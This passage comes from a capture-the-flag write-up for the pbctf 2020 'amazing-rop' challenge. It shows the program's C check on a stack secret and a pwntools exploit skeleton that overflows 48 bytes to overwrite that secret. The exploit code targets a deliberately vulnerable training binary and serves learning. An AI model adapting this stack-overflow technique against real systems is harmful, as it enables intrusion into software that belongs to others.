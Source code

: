 Creating a "passwds" file with some random content allows us to run the program correctly.
It provides a nice visualization of the stack contents both before and after the user input is entered.

![userinput](https://raw.githubusercontent.com/starfleetcadet75/writeups/master/2020-pbctf/amazing-rop/userinput.png)

The program highlights the location of the secret in the stack and indicates that it is looking for a specific value.
The value should be the string "flag" according to the source code.

```c
// Check if secret has changed.
if (secret == 0x67616c66) {  // "flag"
    puts("You did it! Congratuations!");
    // print_flag(); // Print out the flag. You deserve it. (not anymore)
    printf("Returning to address: %p\n", (&secret)[4]);
    return;
}
else if (secret != 0xdeadbeef) {
    puts("Wow you overflowed the secret value! Now try controlling the value of it!");
}
else {
    puts("Maybe you haven't overflowed enough characters? Try again?");
}
```

It took 48 bytes to reach the location of the secret value so we can write out an initial exploit skeleton to trigger the correct code path.

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./bof.bin")
context.binary = exe

def conn():
    if args.LOCAL:
        return process(exe.path)
    else:
        return remote("maze.chal.perfect.blue", 1)

def main():
    r = conn()
    print(r.clean())
    r.sendline("n")

    # Write "flag" to the required location
    buf = b"A" * 48
    buf += p32(0x67616c66)

    r.sendline(buf)
    r.interactive()

if __name__ == "__main__":
    main()
```

